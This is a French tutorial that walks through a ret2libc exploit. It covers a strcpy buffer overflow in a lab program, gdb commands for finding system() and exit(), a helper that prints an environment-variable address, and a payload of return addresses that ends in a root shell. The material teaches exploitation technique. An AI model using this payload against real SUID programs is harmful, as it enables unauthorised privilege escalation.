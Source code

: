 



#### **Théorie**

- La fonction system() de la librairie Libc permet d'exécuter une commande dans un terminal. Si nous réussissons à faire revenir le programme sur l'adresse de cette fonction avec un arguments qui appelle /bin/sh, nous pouvons exécuter un shell en tant que root si le programme victime est en SUID.

#### **Pratique**

##### **Exploit 1**
- **Environnement**
	- L'ordinateur ne doit pas avoir l'ASLR (randomisation de stack) active car nous aurons besoin de l'adresse d'une variable d'environnement, de la fonction systeme et exit. Cependant, cet exploit vise à bypass la désactivation d'exécution d'instructions à partir de la stack. Cette protection nous empêche de mettre dans le buffer notre shellcode car il sera pas exécuté de toute façon.

- **Code source**
```C
Code 
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[]){
	char little_array[512];
	if (argc > 1)
		strcpy(little_array, argv[1]);
}
```

- **Analyse du code source**
	- On voit que notre input (argv) est copié vers un buffer de taille max 512 bytes mais rien ne nous empêche de faire un buffer overflow.

- **Shellcode**
 "\xc0\xf2\x03\x42” //system()
“\x02\x9b\xb0\x42” //exit()
“\xa0\x8a\xb2\x42” //binsh

- **Exploitation**
	- Là on va devoir utilisé gdb. En gros, ce qu'on veut c'est remplacer l'adresse de retour d'une fonction par l'adresse qui pointe vers la fonction system(). La fonction system va donc "déplacer" le processus et va prendre en paramètre ce qu'on place derrière. Ce qu'on va placer derrière c'est l'adresse de la fonction exit() pour pouvoir fermer le programme exploité mais ca ne va pas fermer le processus system(). System va donc lire les paramètres qu'il y a après et nous on va donc mettre l'adresse de la variable d'environnement qui lance /bin/sh.
	- Pour ça, il faut 1) Trouver les adresses de la fonction system() dans l'environnement du programme cible, 2) Trouver l'adresse de la fonction exit() et 3) Créer une variable d'environnement qui lance /bin/sh.
	
		- Dans gdb lancé avec le programme cible, on fait `p system` après avoir fait `run`.
		- Juste après, on fait pareil avec `p exit`
		- Enfin, on peut faire un petit programme qui créer et affiche l'adresse d'une variable d'environnement :
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main() {
	setenv("binsh", "/bin/sh", 1);
	char *binsh_addr = getenv("binsh");
	printf("Adresse de binsh : %p\n", (void *)binsh_addr);
	return 0;
}
```
- 
	- Après ça, on créer vite fait notre shellcode expliqué au début avec d'abord l'adresse de system(), de exit() et enfin de binsh
	- Enfin, on créer un programme qui fait le payload avec un padding à ajusté et qui lance le programme, comme pour les exploit strcpy et Nop Sled strcpy.
	- Si tous se passe bien, tu devrais avoir un shell root qui pop.
